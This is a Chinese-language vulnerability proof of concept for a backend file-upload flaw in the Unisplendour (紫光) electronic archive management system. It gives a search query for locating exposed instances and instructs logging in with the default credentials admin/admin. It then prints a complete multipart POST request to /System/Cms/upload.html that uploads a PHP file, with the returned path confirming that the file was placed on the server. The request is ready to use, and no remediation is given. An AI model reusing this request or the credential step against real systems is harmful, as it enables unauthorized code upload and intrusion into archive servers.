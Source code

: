 # 紫光档案管理系统 upload.html 后台文件上传漏洞

# 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20230314084520184](images/image-20230314084520184.png)

使用默认口令登录后台 admin/admin, 发送请求包

![image-20230314084534337](images/image-20230314084534337.png)

```
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![image-20230314084553654](images/image-20230314084553654.png)

回显路径即为上传成功的文件路径

![image-20230314084608438](images/image-20230314084608438.png)

